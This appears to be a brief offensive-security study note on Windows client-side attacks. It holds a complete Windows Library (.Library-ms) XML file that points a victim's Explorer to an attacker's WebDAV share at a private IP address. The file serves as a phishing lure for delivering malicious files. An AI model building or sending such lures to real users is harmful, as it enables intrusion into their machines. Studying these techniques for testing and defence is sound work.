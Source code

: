 > Libraries are virtual containers for users' content. A library can contain files and folders stored on the local computer or in a remote storage location. In Windows Explorer, users interact with libraries in ways similar to how they would interact with other folders


#Client_Side #Windows_Privilege_Escalation 

Windows Library code for connecting to our WebDAV Share
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.69.123</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```